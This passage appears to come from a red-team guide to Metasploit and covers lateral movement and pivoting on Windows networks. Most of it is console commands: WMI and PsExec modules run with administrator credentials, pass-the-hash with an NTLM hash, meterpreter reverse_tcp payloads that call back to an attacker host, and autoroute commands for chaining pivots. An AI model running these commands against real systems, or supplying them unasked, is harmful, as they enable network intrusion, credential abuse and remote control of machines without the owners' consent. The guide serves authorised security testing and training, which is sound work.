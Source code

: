```bash
# Use WMI for lateral movement
msf6 > use exploit/windows/local/wmi
msf6 exploit(windows/local/wmi) > set SESSION 1
msf6 exploit(windows/local/wmi) > set RHOSTS 10.0.0.10
msf6 exploit(windows/local/wmi) > set SMBUser Administrator
msf6 exploit(windows/local/wmi) > set SMBPass "P@ssw0rd"
msf6 exploit(windows/local/wmi) > set PAYLOAD windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/wmi) > set LHOST 192.168.1.200
msf6 exploit(windows/local/wmi) > run

# Use PsExec for lateral movement
msf6 > use exploit/windows/smb/psexec
msf6 exploit(windows/smb/psexec) > set RHOSTS 10.0.0.10
msf6 exploit(windows/smb/psexec) > set SMBUser Administrator
msf6 exploit(windows/smb/psexec) > set SMBPass "P@ssw0rd"
msf6 exploit(windows/smb/psexec) > set PAYLOAD windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/psexec) > run

# Use pass-the-hash techniques
msf6 > use exploit/windows/smb/psexec
msf6 exploit(windows/smb/psexec) > set RHOSTS 10.0.0.10
msf6 exploit(windows/smb/psexec) > set SMBUser Administrator
msf6 exploit(windows/smb/psexec) > set SMBPass aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
msf6 exploit(windows/smb/psexec) > run
```

> **PRACTICAL TIP:**
> 
> When pivoting through multiple network segments, document your route topology carefully. Complex pivoting chains can be difficult to manage:
> 
> ```bash
> # Example pivot chain documentation
> # Internet → 192.168.1.200 (attacker) → 192.168.1.100 (pivot1) → 10.0.0.0/24 → 10.0.0.50 (pivot2) → 172.16.0.0/24
> 
> # Setup on pivot1
> meterpreter > run autoroute -s 10.0.0.0/24
> 
> # Setup on pivot2
> meterpreter > run autoroute -s 172.16.0.0/24
> 
> # Verify routes
> msf6 > route print
> ```

## Metasploit Automation

While interactive use is valuable for exploration, automation is essential for operational efficiency in red team engagements.
